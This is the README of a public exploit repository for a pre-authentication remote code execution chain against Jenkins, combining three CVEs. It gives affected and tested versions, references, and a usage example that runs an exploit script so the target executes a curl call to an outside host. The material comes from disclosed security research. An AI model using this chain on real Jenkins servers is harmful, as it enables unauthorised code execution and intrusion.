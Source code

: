 # awesome-jenkins-rce-2019

There is no pre-auth RCE in Jenkins since May 2017, but this is the one!

It chains CVE-2018-1000861, CVE-2019-1003005 and CVE-2019-1003029 to a more reliable and elegant pre-auth remote code execution!


# Affect list

* ANONYMOUS_READ disable
    - Jenkins version < 2.138

* ANONYMOUS_READ enable(or with a normal user account)
    - Jenkins build time < 2019-01-28



# Usage

```bash
$ curl -s -I http://jenkins/| grep X-Jenkins
X-Jenkins: 2.137
X-Jenkins-Session: 20f72c2e
X-Jenkins-CLI-Port: 50000
X-Jenkins-CLI2-Port: 50000

$ python exp.py http://jenkins/ 'curl orange.tw'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```


# Tested on

* Jenkins 2.53
* Jenkins 2.122
* Jenkins 2.137
* Jenkins 2.138 with ANONYMOUS_READ enable
* Jenkins 2.152 with ANONYMOUS_READ enable
* Jenkins 2.153 with ANONYMOUS_READ enable
* Script Security Plugin 1.43
* Script Security Plugin 1.48


# Acknoledgements

* [@orange_8361](https://twitter.com/orange_8361) for CVE-2018-1000861
* [@0ang3el](https://twitter.com/0ang3el) for CVE-2019-1003005
* [@webpentest](https://twitter.com/webpentest) for CVE-2019-1003029


Part slides from my HITB AMS 2019 talk:
![1.png](img/1.png)
![2.png](img/2.png)
![3.png](img/3.png)



# References

* [Hacking Jenkins Part 1 - Play with Dynamic Routing](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html)
* [Hacking Jenkins Part 2 - Abusing Meta Programming for Unauthenticated RCE!](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html)
* [Jenkins Security Advisory 2018-12-05](https://jenkins.io/security/advisory/2019-12-05/)
* [Jenkins Security Advisory 2019-01-28](https://jenkins.io/security/advisory/2019-01-28/)
* [Jenkins Security Advisory 2019-03-06](https://jenkins.io/security/advisory/2019-03-06/)